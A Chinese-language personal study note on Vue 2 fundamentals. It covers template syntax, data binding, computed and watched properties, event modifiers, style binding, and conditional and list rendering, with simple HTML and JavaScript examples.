# Vue

2023年1月4日 19点31分
axios的源码我没看,直接开始vue吧

## Vue基础

### Vue简介

Vue是什么?
**一套用于构建用户见面的渐进式JavaScript框架**

> 尤雨溪,好像是美籍华人,很厉害

vue的特点

1. 采用**组件化**模式,提高代码复用率,且让代码更好维护
2. **声明式**编码,让编码人员无需直接操作DOM,提高开发效率
3. 使用**虚拟DOM**+优秀的**Diff算法**,尽量复用DOM节点

原生Js

<!--  -->


Vue实现

<!--  -->


不得不说,vue官网的文档做的是真的nice

### Vue开发环境

[下载地址](https://v2.cn.vuejs.org/v2/guide/installation.html#%E7%9B%B4%E6%8E%A5%E7%94%A8-lt-script-gt-%E5%BC%95%E5%85%A5)

还要下载一个插件-Vue Devtools
直接在chrome插件商店里就可以下载了

然后第一个Vue实例

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>初识Vue</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <h1>Hello {{name}}</h1>
    </div>


    <script type="text/javascript">
        Vue.config.productionTip = false  // 设置为 false 以阻止 vue 在启动时生成生产提示。

        // 创建Vue实例
        new Vue({
            el:'#root',  // el 用于指定当前Vue实例为哪个容器服务,值通常为css选择器字符串,甚至能用document.getElementById('root')
            data:{ // data中用于存储数据,数据供el所指定的容器去使用,值我们暂时先写成一个对象
                name: 'ZZMR'
            }
        })

    </script>
</body>
</html>
```

1. 想让Vue工作,就必须创建一个Vue实例,且要传入一个配置对象
2. root容器里面的代码依然符合html规范,只不过混入了一些特殊的Vue语法
3. root容器里的代码被称为Vue

### 一些小细节

- **容器和Vue实例是一一对应的,不能多对一/一对多**
- 真是开发中只有一个Vue实例,并且会配合着组件一起使用
- {{xxx}}中的xxx要写js表达式,且xxx可以自动读取到data中的所有属性
- 一旦data中的数据发生改变,那么模板中用到该数据的地方也会自动更新

### 模板语法

首先就是插值语法:{{}}
还有指令语法:v-bind:xxx(这个可以简写成一个冒号)

但是什么时候用插值,什么时候用指令

1. 插值语法:
   - 功能: 用于解析标签体内容
   - 写法: {{xxx}},xxx是js表达式,且可以直接读取到data中的所有属性
2. 指令语法:
   - 功能: 用于解析标签(包括: 标签属性,标签体内容,绑定事件)
   - 举例: v-bind:href="xxx" 或 简写成 :href="xxx",xxx同样要写成js表达式
     且可以直接读取到data中的所有属性
   - 备注: Vue中有很多的指令,且形式都是: v-????,此处我们只是拿v-bind举个例子

> 多级结构

```js
new Vue({
            el:'#root',
            data:{
                name:'Jack',
                school:{
                    name:'ZZMR',
                    url:'https://jimmy66886.github.io/'
                }
            }
        })
```

此时再获取,就可以用school.name,用于和name区分开

代码:

```html
    <!-- 准备好一个容器 -->
    <div id="root">
        <h1>插值语法</h1>
        <h3>你好,{{name}}</h3>
        <hr>
        <h1>指令语法</h1>
        <a v-bind:href="school.url">点我去{{school.name}}</a>
        <!-- <a :href="url" :x="hello">点我去ZZMR2</a> -->
    </div>


    <script type="text/javascript">
        new Vue({
            el:'#root',
            data:{
                name:'Jack',
                school:{
                    name:'ZZMR',
                    url:'https://jimmy66886.github.io/'
                }
            }
        })
    </script>
```

### 数据绑定

数据绑定分为单向数据绑定和双向数据绑定
而v-bind就是单向数据绑定:data数据影响页面数据,但是页面数据不会影响data中的数据

1. 单向绑定(v-bind): 数据只能从data流向页面
2. 双向绑定(v-model): 数据不仅能从data流向页面,还可以从页面流向data
   - 备注:
     1. 双向绑定一般都应用在表单类元素上(input,select等)
     2. v-model:value可以简写成 v-model, 因为v-model默认收集的就是value值

```html
    <!-- 准备好一个容器 -->
    <div id="root">
        单向数据绑定: <input type="text" v-bind:value="name"><br>
        双向数据绑定: <input type="text" v-model:value="name"><br>
        <!-- 简写 -->
        双向数据绑定: <input type="text" v-model="name"><br>
        <!-- 如下代码是错误的,因为v-model只能应用在表单类元素上(输入类元素上) -->
        <!-- <h2 v-model:x="name">你好啊</h2> -->
    </div>


    <script type="text/javascript">
        new Vue({
            el:'#root',
            data:{
                name:'ZZMR'
            }
        })
    </script>
```

### el与data的两种写法

data与el的两种写法

1. el的两种写法
   - new Vue时配置el属性
   - 先创建Vue实例,随后再通过vm.$mount('#root')指定el的值
2. data有两种写法
   - 对象式
   - 函数式
     如何选择:目前哪种写法都可以,以后学习到组件时,data必须使用函数式,否则会报错
3. 一个重要的原则:
   由Vue管理的函数,一定不要写箭头函数,一旦写了箭头函数,this就不再是Vue实例了

```html
<!-- 准备好一个容器 -->
    <div id="root">
        <h1>你好 {{name}}</h1>
    </div>


    <script type="text/javascript">
        /* const v = new Vue({
            // el: '#root', // 第一种写法
            data: {
                name: 'ZZMR'
            }
        })
        console.log(v)
        v.$mount('#root')  // 第二种写法 */


        // data的两种写法
        new Vue({
            el: '#root',
            // data的第一种写法: 对象式
            /* data: {
                name:'ZZMR'
            } */

            // data的第二种写法: 函数式
            data() {
                console.log('@@@', this); // 此处的this是Vue实例对象
                return {
                    name: 'ZZMR'
                }
            }
        })

    </script>
```

### MVVM模型

1. M: 模型(Model) 对应data中的数据
2. V: 视图(View) 模板
3. VM: 视图模型(ViewModel) Vue实例对象

<!--  -->


特点:

1. data种所有的属性,最后都出现在了vm身上
2. vm身上所有的属性及Vue原型上所有属性,在Vue模板中都可以直接使用

### 数据代理

#### defineProperty方法

```html
    <script type="text/javascript">

        let number = 18

        let person = {
            name: '张三',
            sex: '男'
        }

        Object.defineProperty(person, 'age', {
            /* value: 18,
            enumerable: true, // 控制属性是否可以枚举-默认值是false
            writable: true,// 控制属性是否可以被修改,默认是false
            configurable: true   //控制属性是否可以被删除,默认值:false */

            // 当有人读取person的age属性时,get函数(getter)就会被调用,且返回值就是age的值
            get(){
                console.log('有人读取age属性');
                return number
            },

            // 当有人修改person的age属性时,set函数(setter)就会被调用,且会收到修改的具体值
            set(value){
                console.log('有人修改了age属性,修改为:'+value);
                number = value
            }

  
        })
        // console.log(Object.keys(person))
        console.log(person);

    </script>
```

这个的确不知道,但是听了听还是没啥问题的

#### 何为数据代理

**数据代理: 通过一个对象对另一个对象中属性的操作(读/写)**
就是利用了Object.defineProperty()方法的特性-getter和setter

```html
    <!-- 数据代理: 通过一个对象对另一个对象中属性的操作(读/写) -->
    <script>
        let obj = {x:100}
        let obj2 = {y:200}

        Object.defineProperty(obj2,'x',{
            get(){
                return obj.x;
            },
            set(value){
                obj.x = value;
            }
        })
    </script>
```

#### Vue中的数据代理

<!--  -->


1. Vue中的数据代理
   - 通过vm对象来代理data对象中属性的操作(读/写)
2. Vue中数据代理的好处
   - 更加方便地操作data中的数据
3. 基本原理
   - 通过Object.defineProperty()把data对象中所有属性添加到vm上,为每一个添加到vm上的属性,都指定一个getter/setter,在getter/setter内部去操作(读/写)data中对应的属性

```html
    <div id="root">
        <h2>学校名称： {{name}}</h2>
        <h2>学校地址： {{address}}</h2>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR',
                address: 'China'
            }
        })
    </script>
```

### 事件处理

#### 事件的基本使用

1. 使用v-on:xxx或@xxx绑定事件,其中xxx是事件名
2. 事件的回调需要配置在methods对象中,最终会在vm上
3. methods中配置的函数,不要用箭头函数,否则this就不是vm了
4. methods中配置的函数,都是被Vue所管理的函数,this的指向是vm或组件实例对象
5. @click="demo"和@click="demo($event)" 效果一致,但后者可以传参

```html
<div id="root">
        <h2>欢迎 {{name}} </h2>
        <!-- <button v-on:click="showInfo">点我提示信息</button><br> -->
        <!-- 简写 -->
        <button @click="showInfo1">点我提示信息1-不传参</button>
        <button @click="showInfo2(66,$event)">点我提示信息2-传参</button>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR'
            },
            methods: {
                showInfo1(event) {
                    alert('同学你好1')
                    // console.log(event.target.innerText);
                },
                showInfo2(number, event) {
                    // console.log(number,event);
                    alert('同学你好2')
                }
            }
        })
    </script>
```

#### 事件修饰符

1. prevent: 阻止默认事件(常用)
2. stop: 阻止事件冒泡(常用)
3. once: 事件只触发一次(常用)
4. capture: 使用事件的捕获模式
5. self: 只有event.target是当前操作的元素时才触发事件
6. passive: 事件的默认行为立即执行,无需等待事件回调执行完毕

```html
<div id="root">
        <h2>欢迎 {{name}} </h2>
        <!-- 1. prevent: 阻止默认事件(常用) -->
        <a href="https://jimmy66886.github.io/" @click.prevent="showInfo">点我提示信息</a>

        <!-- 2. stop: 阻止事件冒泡(常用) -->
        <div @click="showInfo" class="demo1">
            <button @click.stop="showInfo">点我提示信息</button>
        </div>

        <!-- 3. once: 事件只触发一次(常用) -->
        <button @click.once="showInfo">点我提示信息</button>
        <br>

        <!-- 4. capture: 使用事件的捕获模式 -->
        <div class="box1" @click.capture="showMsg(1)">
            div1
            <div class="box2" @click="showMsg(2)">
                div2
            </div>
        </div>

        <!-- 5. self: 只有event.target是当前操作的元素时才触发事件 -->
        <div @click.self="showInfo" class="demo1">
            <button @click="showInfo">点我提示信息</button>
        </div>

        <!-- 6. passive: 事件的默认行为立即执行,无需等待事件回调执行完毕 -->
        <ul @wheel="demo" class="list">
            <li>1</li>
            <li>2</li>
            <li>3</li>
            <li>4</li>
        </ul>

    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR'
            },
            methods: {
                showInfo(e) {
                    // e.preventDefault()  阻止默认事件(行为)
                    // e.stopPropagation()  阻止事件冒泡
                    alert('同学你好')
                    // console.log(e.target)
                },
                showMsg(msg) {
                    console.log(msg)
                },
                demo() {
                    console.log('@')
                }

            }
        })
    </script>
```

#### 键盘事件

按键别名

- 回车 => enter
- 删除 => delete(捕获"删除"和"退格"键)
- 退出 => esc
- 空格 => space
- 换行 => tab (特殊,必须配合keydown使用)
- 上 => up
- 下 => down
- 左 => left
- 右 => right

1. Vue未提供别名的按键,可以使用按键原始的key值去绑定,但注意要转化为kebab-case(短横线命名),比如CapsLock按键=caps-lock
2. 系统修饰键(用法特殊): ctrl alt shift meta
   - 配合keyup使用,按下修饰键的同时,再按下其他键,随后释放其他键,事件才被触发
   - 配合keydown使用,正常触发事件
3. 也可以使用keyCode去指定具体的按键(不推荐)
4. Vue.config.keyCodes.自定义键名 = 键码 ,可以去定制按键别名

```html
<div id="root">
        <h2>欢迎来到{{name}}</h2>
        <input type="text" placeholder="按下回车提示输入" @keydown.alt="showInfo">
    </div>

    <script>

        Vue.config.keyCodes.huiche = 13// 定义了一个别名按键

        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR'
            },
            methods: {
                showInfo(e) {
                    // if (event.keyCode !== 13) return
                    // console.log(event.keyCode)
                    console.log(e.target.value)
                }
            }
        })
    </script>
```

### 计算属性

#### 插值语法实现

```html
    <div id="root">
        姓: <input type="text" v-model="firstName"><br>
        名: <input type="text" v-model="lastName"><br>
        全名: <span>{{firstName}}-{{lastName}}</span>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                firstName: '张',
                lastName: '三'
            }
        })
    </script>
```

很简单啊,直接拼

#### methods实现

```html
    <div id="root">
        姓: <input type="text" v-model="firstName"><br>
        名: <input type="text" v-model="lastName"><br>
        全名: <span>{{fullName()}}</span>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                firstName: '张',
                lastName: '三'
            },
            methods: {
                fullName() {
                    return this.firstName + '-' + this.lastName
                }
            }
        })
    </script>
```

更便于观察了,在{{}}中直接调用函数,来实现拼接姓名

#### 计算属性实现

1. 定义: 要使用的属性不存在,要通过已有**属性(一定要是属性,如果是变量什么的不行)**计算得到
2. 原理: 底层借助了Object.defineproperty方法提供的getter和setter
3. get函数什么时候执行
   - 初次读取时会执行一次
   - 当以来的数据发生改变时会被再次调用
4. 优势: 与methods实现相比,内部有缓存机制(复用) 效率更高,调试方便
5. 备注:
   - 计算属性最终会出现在vm上,直接读取使用即可
   - 如果计算属性要被修改,那必须写set函数去响应修改,且set中要引起计算时依赖的数据发生

```html
<div id="root">
        姓: <input type="text" v-model="firstName"><br>
        名: <input type="text" v-model="lastName"><br>
        全名: <span>{{fullName}}</span>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                firstName: '张',
                lastName: '三',
            },
            computed: {
                fullName: {
                    // get有什么作用:当有人读取fullName时,get就会被调用,且返回值就作为fullName的值
                    // get调用时机:
                    // 1. 初次读取fullName时 2. 所依赖的数据发生变化时
                    get() {
                        // console.log('get被调用了')
                        return this.firstName + '-' + this.lastName
                    },
                    // set什么时候调用? 当fullName被修改时
                    set(value) {
                        console.log('set '+value)
                        const arr = value.split('-')
                        this.firstName = arr[0]
                        this.lastName = arr[1]
                    }
                }
            }
        })
    </script>
```

**计算属性的简写**

确定只读不改(只有get没有set)才能用简写

```html
    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                firstName: '张',
                lastName: '三',
            },
            computed: {
                fullName() {
                    console.log('get被调用了')
                    return this.firstName + '-' + this.lastName
                }
            }
        })
    </script>
```

### 监视属性

#### 天气案例

实现点击按钮切换内容

```html
    <div id="root">
        <h2>今天天气很{{info}}</h2>
        <!-- <button @click="isHot = !isHot">切换天气</button> -->
        <button @click="changeWeather">切换天气</button>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
               isHot:true
            },
            computed: {
                info() {
                    return this.isHot ? '炎热' : '凉爽'
                }
            },
            methods: {
                changeWeather(){
                    this.isHot = !this.isHot
                }
            },
        })
    </script>
```

#### 监视属性

```html
<div id="root">
        <h2>今天天气很{{info}}</h2>
        <!-- <button @click="isHot = !isHot">切换天气</button> -->
        <button @click="changeWeather">切换天气</button>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                isHot: true
            },
            computed: {
                info() {
                    return this.isHot ? '炎热' : '凉爽'
                }
            },
            methods: {
                changeWeather() {
                    this.isHot = !this.isHot
                }
            },
            // watch: {
            /* isHot: {
                immediate:true,// 初始化时让handler调用一下
                // handler 什么时候调用  当isHot发生改变时调用
                handler(newValue, oldValue) {
                    console.log('isHot被修改了' + newValue + '@' + oldValue)
                }
            }, */
            /* info: {
                immediate:true,// 初始化时让handler调用一下
                // handler 什么时候调用  当isHot发生改变时调用
                handler(newValue, oldValue) {
                    console.log('info被修改了' + newValue + '@' + oldValue)
                }
            } */
            // }
        })

        vm.$watch('isHot', {
            immediate: true,// 初始化时让handler调用一下
            // handler 什么时候调用  当isHot发生改变时调用
            handler(newValue, oldValue) {
                console.log('isHot被修改了' + newValue + '@' + oldValue)
            }
        })
    </script>
```

监视有两种方法,第一种直接在watch里面写,一般是创建vue对象时就明确了要监视哪个属性,第二种是用vm.$watch()的形式,第一个参数是属性名(要用单引号),第二个参数就是配置项

> 1. 当被监视的属性变化时,回调函数自动调用,进行相关操作
> 2. 监视的属性必须存在,才能进行监视

#### 深度监视

**深度监视**

- Vue中的watch默认不检测对象内部值的改变(一层)
- 配置deep:true可以监测对象内部值改变(多层)
- Vue自身可以监测对象内部值的改变,但Vue提供的watch默认不可以
- 使用watch时根据数据的具体结构,决定是否采用深度监视

```html
<div id="root">
        <h2>今天天气很{{info}}</h2>
        <!-- <button @click="isHot = !isHot">切换天气</button> -->
        <button @click="changeWeather">切换天气</button>
        <hr>
        <h3>a的值是{{numbers.a}}</h3>
        <button @click="numbers.a++">点我让a+1</button><br>
        <h3>b的值是{{numbers.b}}</h3>
        <button @click="numbers.b++">点我让b+1</button>
        <button @click="numbers = {a:666,b:888}">点我彻底替换掉numbers</button>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                isHot: true,
                numbers: {
                    a: 1,
                    b: 1
                }
            },
            computed: {
                info() {
                    return this.isHot ? '炎热' : '凉爽'
                }
            },
            methods: {
                changeWeather() {
                    this.isHot = !this.isHot
                }
            },
            watch: {
                isHot: {
                    // immediate: true,// 初始化时让handler调用一下
                    // handler 什么时候调用  当isHot发生改变时调用
                    handler(newValue, oldValue) {
                        console.log('isHot被修改了' + newValue + '@' + oldValue)
                    }
                },
                // 监视多级结构中某个属性的变化
                'numbers.a': {
                    handler() {
                        console.log('a改变了')
                    }
                },
                // 监视多级结构中所有属性的变化
                numbers:{
                    deep:true,  // 深度监视,
                    handler(){
                        console.log('某个属性变化了')
                    }
                }

            }
        })

    </script>
```

> 深度监视的简写

```html
    <div id="root">
        <h2>今天天气很{{info}}</h2>
        <!-- <button @click="isHot = !isHot">切换天气</button> -->
        <button @click="changeWeather">切换天气</button>

    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                isHot: true,
            },
            computed: {
                info() {
                    return this.isHot ? '炎热' : '凉爽'
                }
            },
            methods: {
                changeWeather() {
                    this.isHot = !this.isHot
                }
            },
            // watch: {
            // 当配置项只有handler时可以简写,也就是说不能写immediate和deep了
            /* isHot: {
                // immediate: true,// 初始化时让handler调用一下
                // handler 什么时候调用  当isHot发生改变时调用
                handler(newValue, oldValue) {
                    console.log('isHot被修改了' + newValue + '@' + oldValue)
                }
            }, */
            /* isHot(newValue, oldValue) {
                console.log('isHot被修改了' + newValue + '@' + oldValue)
            } */
            // }
        })

        // 完整写法
        /*         vm.$watch('isHot', {
                    // immediate: true,// 初始化时让handler调用一下
                    // handler 什么时候调用  当isHot发生改变时调用
                    handler(newValue, oldValue) {
                        console.log('isHot被修改了' + newValue + '@' + oldValue)
                    }
                }) */

        // 简写
        vm.$watch('isHot', function (newValue, oldValue) {
            console.log('isHot被修改了' + newValue + '@' + oldValue)
        })

    </script>
```

#### 计算属性和监视属性

拿监视属性再写一遍姓名案例

```html
<div id="root">
        姓: <input type="text" v-model="firstName"><br>
        名: <input type="text" v-model="lastName"><br>
        全名: <span>{{fullName}}</span>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                firstName: '张',
                lastName: '三',
                fullName: '张-三'
            },
            watch: {
                firstName(newValue) {
                    setTimeout(() => {
                        this.fullName = newValue + '-' + this.lastName
                    }, 1000)
                },
                lastName(newValue) {
                    this.fullName = this.firstName + '-' + newValue
                }
            }
        })
    </script>
```

没什么要说的,主要就是:计算属性不适合写异步任务,因为计算属性靠的是返回值,而这个返回值并不能延迟返回

但是这里的setTimeout为什么可以使用箭头函数?
setTimeout函数的确是在vm中,但是定时器的回调函数并不是vm管理的,而是浏览器管理的

> 箭头函数没有自己的this,所以就会往外找,就找到了vm

总结:

computed和watch之间的区别

1. computed能完成的功能,watch都可以完成
2. watch能完成的功能,computed不一定能完成,例如:watch可以进行异步操作

两个重要的小原则

1. 所有被Vue管理的函数,最好写成普通函数,这样this的指向才是vm 或实例对象
2. 所有不被Vue管理的函数(定时器的回调函数,ajax的回调函数,promise的回调函数等),最好写成箭头函数,这样this的指向才是vm或组件实例对象

### 绑定样式

```html
<div id="root">
        <!-- 绑定class样式--字符串写法(拼class) 适用于:样式的类名不确定,需要动态指定 -->
        <div class="basic" :class="mood" @click="changeMood">{{name}}</div>
        <hr>

        <!-- 绑定class样式--数组写法(拼class) 适用于:要绑定的样式不确定,名字也不确定 -->
        <div class="basic" :class="classArr">{{name}}</div>
        <hr>

        <!-- 绑定class样式--对象写法(拼class) 适用于:要绑定的样式个数确定,名字也确定,但要动态决定用不用 -->
        <div class="basic" :class="classObj">{{name}}</div>

  
        <!-- 数组写法 -->
        <div class="basic" :style="[styleObj,styleObj2]">{{name}}</div>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR',
                mood: 'normal',
                arr: ['atguigu1', 'atguigu2', 'atguigu3'],
                classObj: {
                    atguigu1: false,
                    atguigu2: false,
                    atguigu3: false
                },
                styleObj: {
                    fontSize: '40px'
                },
                styleObj2: {
                    color: 'red'
                }
            },
            methods: {
                changeMood() {
                    const arr = ['happy', 'sad', 'normal']
                    this.mood = arr[Math.floor(Math.random() * 3)]
                }
            }
        })
    </script>
```

1. class样式
   - 写法:class="xxx", xxx可以是字符串,对象,数组
   - 字符串写法适用于:类名不确定,要动态获取
   - 对象写法适用于:要绑定多个样式,个数不确定,名字也不确定
   - 数组写法适用于:要绑定多个样式,个数确定,名字也确定,但是不确定用不用
2. style样式
   - :style="{fontSize:xxx}" 其中xxx是动态的
   - :style="[a,b]",其中a,b是样式对象

### 条件渲染

渲染语法

1. v-if
   - 写法：
     - v-if="表达式"
     - v-else-if="表达式"
     - v-else="表达式"
   - 适用于:切换频率较低的场景
   - 特点:不展示的DOM元素直接被移除
   - 注意: v-if可以和v-else-if,v-if一起使用,但是结构不能被打断
2. v-show
   - 写法: v-show表达式
   - 适用于:切换频率较高的场景
   - 特点:不展示的DOM元素未被移除,仅仅是使用样式隐藏掉
3. 备注: 使用v-if时,元素可能无法获取到,而使用v-show一定可以获取到

```html
    <div id="root">
        <!-- 使用v-show做条件渲染 -->
        <!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
        <!-- <h2 v-show="1===1">欢迎来到{{name}}</h2> -->

        <!-- 用v-if做条件渲染 -->
        <!-- <h2 v-if="false">欢迎来到{{name}}</h2> -->
        <!-- <h2 v-if="1===1">欢迎来到{{name}}</h2> -->

        <h2>当前的n值是{{n}}</h2>
        <button @click="n++">点我n+1</button>

        <!--         <div v-if="n === 1">Angular</div>
        <div v-else-if="n === 2">React</div>
        <div v-else-if="n === 3">Vue</div> -->

        <!-- template只能配合v-if不能配合v-show -->
        <template v-if="n === 1">
            <h2>你好</h2>
            <h2>ZZMR</h2>
            <h2>China</h2>
        </template>


    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR',
                n: 0
            }
        })

    </script>
```

### 列表渲染

#### 基本列表

**v-for指令**

1. 用于展示列表数据
2. 语法:v-for="(item, index) in xxx :key="yyy"
3. 可遍历: 数组,对象,字符串(用的很少),指定次数(用的很少)

```html
<div id="root">
        <!-- 遍历数组 -->
        <h2>人员列表</h2>
        <ul>
            <!-- <li v-for="p in persons" :key="p.id">{{p.name}}-{{p.age}}</li> -->
            <li v-for="(p,index) in persons" :key="index">
                {{p.name}}--{{p.age}}
            </li>
        </ul>

        <!-- 遍历对象 -->
        <h2>汽车信息</h2>
        <ul>
            <li v-for="(value,k) in car" :key="k">
                {{k}}:{{value}}
            </li>
        </ul>

        <!-- 遍历字符串 -->
        <h2>遍历字符串</h2>
        <ul>
            <li v-for="(char,index) in str" :key="index">
                {{char}}:{{index}}
            </li>
        </ul>

        <!-- 遍历指定次数 -->
        <h2>遍历指定次数</h2>
        <ul>
            <li v-for="(number,index) of 5" :key="index">
                {{number}}:{{index}}
            </li>
        </ul>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                persons: [
                    { id: '001', name: '张三', age: 18 },
                    { id: '002', name: '李四', age: 19 },
                    { id: '003', name: '王五', age: 20 }
                ],
                car: {
                    name: "DMC",
                    price: "100万",
                    color: "white"
                },
                str: "hello"
            }
        })
    </script>
```

#### key的作用与原理

用index和用id(对象的唯一标识)的区别

<!--  -->


